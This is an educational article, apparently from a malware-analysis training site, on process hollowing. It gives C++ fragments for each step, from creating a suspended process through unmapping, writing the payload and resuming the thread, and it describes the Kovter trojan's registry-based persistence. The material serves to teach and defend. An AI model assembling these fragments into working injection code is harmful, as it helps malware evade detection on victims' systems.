


:orphan:
(malware-injection-techniques-process-hollowing)=

# Malware Injection Techniques: Process Hollowing

Process hollowing is a process of running a new process in the address space of a preexisting process. Process hollowing has been used by malware to masquerade their code as legitimate processes. When the legitimate process is hollowed, the malware code is injected into the new process and executed. The malware can then use the existing process' permissions to perform malicious actions on the system.

## Introduction

We continue to review the various methods of code injection. But before starting our journey let's remember what a _process_ is and find out what a _thread_ is.

**Process** - Although programs and processes resemble one another superficially, they are essentially dissimilar.
A program is a static series of instructions, but a process is a container for a collection of resources needed when an instance of the program is executed.

**Threads** - A thread is an item that Windows schedules for execution within a process. Without it, the program for the procedure cannot operate. A thread consists of the following key elements:

- The state of the processor as represented by the contents of a set of CPU registers.
- Two stacks, one for use by the thread in kernel mode and the other for usage in user mode.
- _Thread-local storage (TLS)_ is a private storage region used by subsystems, run-time libraries, and DLLs.
- A _thread ID_ is a unique identifier (part of an internal structure known as a client ID; process IDs and thread IDs are produced from the same namespace, therefore they never overlap).

In addition, threads occasionally have their own security context or token, which is frequently employed by multithreaded server applications that spoof the security context of the clients they serve.

Context refers to the volatile registers, stacks, and private storage space of a thread. This structure is architecture-specific by necessity due to the fact that this information differs for each Windows-supported computer architecture. This architecture-specific data is accessible via the `GetThreadContext` function of Microsoft Windows (called the `CONTEXT` block).

```cpp
BOOL GetThreadContext(
  [in]      HANDLE    hThread,
  [in, out] LPCONTEXT lpContext
);
```

## Process Hollowing

The malware un-maps or hollows out the code of a legitimate process from memory and overwrites the memory space of the victim process by its malicious code.

The malware starts by creating a new process in a _suspended_ state. Here we need to focus our attention a liitle on what is this: _Suspended_ state?

Even though the threads may be waiting for something, such as a kernel object to be signaled or an I/O operation to complete, Running should be the typical case for processes that have no user interface.

The alternative state for such processes is _Suspended_, which occurs when all threads inside the process are in a suspended state.

This is unlikely to occur by the process itself, but it can be accomplished programmatically by invoking the undocumented `NtSuspendProcess` native API on the process, often via a tool ([Process Explorer](https://docs.microsoft.com/en-us/sysinternals/downloads/process-explorer), which is discussed earlier).

The built-in Windows Task Manager provides a quick list of the processes on the system. To get even more process details, click the `Details` tab. Then let's look into `Status` column:



> Because there is no such thing as a "task" in the Windows kernel, the name of this tool, Task Manager, is a bit odd.

For operations that generate a user interface, the `Status` value `Running` indicates that the interface is responsive.
In other words, the thread responsible for creating the window(s) is awaiting user interaction (technically, the message queue associated with the thread).

The Suspended state is feasible exactly as it is in the non-UI scenario, however for Windows Apps (those hosting the Windows Runtime), the `Suspended` state typically occurs when the user minimizes the program.

After 5 seconds, these processes are _suspended_ so that they do not demand any CPU or network resources, allowing the new foreground application to receive all machine resources.
This is particularly crucial for battery-powered devices such as smartphones and tablets.

This and similar mechanisms are detailed in greater detail in [Windows Internals book](https://www.amazon.com/Windows-Internals-Part-architecture-management/dp/0735684189).

So, the malware starts by creating a new process in a suspended state. To do this, the malware calls `CreateProcess` and sets the flag of process creation into
`CREATE_SUSPENDED (0x00000004)`.

```cpp
LPSTARTUPINFOA pStartupInfo = new STARTUPINFOA();
LPPROCESS_INFORMATION pProcessInfo = new PROCESS_INFORMATION();

CreateProcessA
(
  0,
  pDestCmdLine,
  0,
  0,
  0,
  CREATE_SUSPENDED,
  0,
  0,
  pStartupInfo,
  pProcessInfo
);
```

The primary thread of the newly generated process will stay suspended until the malware invokes `ResumeThread`.

Then, the malware replaces the legitimate file contents by its malicious payload. This memory unmapping is done using `NtUnmapViewOfSection` or `ZwUnmapViewOfSection` APIs, which
release all memory contents pointed to by a section:

```cpp

typedef NTSTATUS (WINAPI* _NtUnmapViewOfSection)(
  HANDLE ProcessHandle,
  PVOID BaseAddress
);

//...

FARPROC fpNtUnmapViewOfSection = GetProcAddress(hNTDLL, "NtUnmapViewOfSection");

_NtUnmapViewOfSection NtUnmapViewOfSection = (_NtUnmapViewOfSection)fpNtUnmapViewOfSection;

DWORD dwResult = NtUnmapViewOfSection(
  pProcessInfo->hProcess,
  pPEB->ImageBaseAddress
);

//...
```

The loader then runs `VirtualAllocEx` to allocate memory for the malware:

```cpp

//...
PVOID pRemoteImage = VirtualAllocEx(
  pProcessInfo->hProcess,
  pPEB->ImageBaseAddress,
  pSourceHeaders->OptionalHeader.SizeOfImage,
  MEM_COMMIT | MEM_RESERVE,
  PAGE_EXECUTE_READWRITE
);

if (!pRemoteImage) {
  printf("VirtualAllocEx call failed\r\n");
  return;
}

//...
```


Not that it allocates read-write-execute (RWX) memory (`PAGE_EXECUTE_READWRITE`) in the suspended process to provide room for the malicious code substitution.

We can now copy over the source image headers into the newly allocated memory in the destination process:

```cpp
//...
if (!WriteProcessMemory(
  pProcessInfo->hProcess,
  pPEB->ImageBaseAddress,
  pBuffer,
  pSourceHeaders->OptionalHeader.SizeOfHeaders,
  0
)) {
  printf("Error writing process memory\r\n");
  return;
}
//...

```

The loader writes the malware's sections into the memory space of the target process using the `WriteProcessMemory` method:

```cpp
//...
for (DWORD x = 0; x < pSourceImage->NumberOfSections; x++) {
  if (!pSourceImage->Sections[x].PointerToRawData)
    continue;

    PVOID pSectionDestination =
    (PVOID)((DWORD)pPEB->ImageBaseAddress + pSourceImage->Sections[x].VirtualAddress);

    printf("Writing %s section to 0x%p\r\n", pSourceImage->Sections[x].Name, pSectionDestination);

    if (!WriteProcessMemory(
      pProcessInfo->hProcess,
      pSectionDestination,
      &pBuffer[pSourceImage->Sections[x].PointerToRawData],
      pSourceImage->Sections[x].SizeOfRawData,
      0
    )) {
      printf ("Error writing process memory\r\n");
      return;
    }
  }
//....
```

The malware uses `SetThreadContext` function to determine the Entry point of the new code section, which has been written:

```cpp
//...
if (!SetThreadContext(pProcessInfo->hThread, pContext)) {
  printf("Error setting context\r\n");
  return;
}
//...
```

Finally, the malware resumes the suspended thread using the `ResumeThread` method:

```cpp
//...

printf("Resuming thread\r\n");
if (!ResumeThread(pProcessInfo->hThread)) {
  printf("Error resuming thread\r\n");
  return;
}
printf("Process hollowing complete\r\n");
//...
```

The illustration depicts a disassembly trace of _Ransom. Cryak_'s process hollowing:



## Real-world example: Kovter

Kovter is "classic" process hollowing in action.

Kovter is a family of click-fraud Trojans that has been discovered associating with ransomware families such as Locky as of late.
2016 saw the discovery of Kovter variants with nearly fileless persistence.

This malware is supplied mostly as an attachment within phishing emails.
Kovter hides the majority of its malicious JavaScript, PowerShell, and shellcode components (which are often obfuscated) across many registry keys during execution.
Using native apps, it then combines, decrypts, and executes the code saved in the registry and executes its injection function.

Kovter achieves persistence by adding shortcuts (.lnk files) to the starting folder or by adding entries to the `HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run` registry key. Both methods will open a component file with an arbitrary file extension.

It adds two registry entries to the HKEY_USERS hive in order for the component file to be opened by the legitimate software `mshta.exe`, which extracts a payload from a third registry key.

A PowerShell script is extracted and added as a new environment variable when the payload is decrypted.
The PowerShell script then injects shellcode into the target process.

Kovter exploits the process hollowing technique to insert malicious code into normal processes via shellcode.
By exploiting process hollowing, this practically fileless malware can achieve and sustain a stealthy presence, posing a challenge to conventional AV solutions.

### References

- [Process Hollowing ATT&CK MITRE](https://attack.mitre.org/techniques/T1055/012/)
- [Process Hollowing](https://github.com/m0n0ph1/Process-Hollowing)
- [SetThreadContext](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-setthreadcontext)
- [ResumeThread](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-resumethread)

:::{seealso}
Would you like to learn practical malware analysis techniques? Then register for our online course! [MRE - Certified Reverse Engineer](https://www.mosse-institute.com/certifications/mre-certified-reverse-engineer.html)
:::
